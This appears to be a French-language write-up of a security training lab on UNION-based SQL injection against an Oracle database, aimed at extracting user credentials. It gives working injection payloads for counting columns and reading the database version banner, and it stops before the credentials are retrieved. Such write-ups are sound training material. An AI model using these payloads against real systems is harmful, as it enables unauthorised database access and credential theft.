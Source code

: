 # DESCRIPTION
------------------------------------------------------------------------------------------------------

This lab contains an SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords.
You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

------------------------------------------------------------------------------------------------------

Même énoncé que le précédent lab, mais cette fois-ci pour Oracle.

On liste le nombre de colonnes et leurs compatibilités :

```
'ORDER BY 1--
'ORDER BY 2--
'UNION SELECT 'a','a' FROM dual--
```

2 colonnes, toutes deux compatibles.

L'énoncé précise le type de database, mais il n'est jamais inutile de vérifier par sécurité, ainsi que pour avoir la version :

```
'UNION SELECT banner,'a' FROM v$version--
```

La page retourne : Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

On peut dorénavant chercher dans la documentation les noms de colonne correspondant à all_tables et all_tab_columns

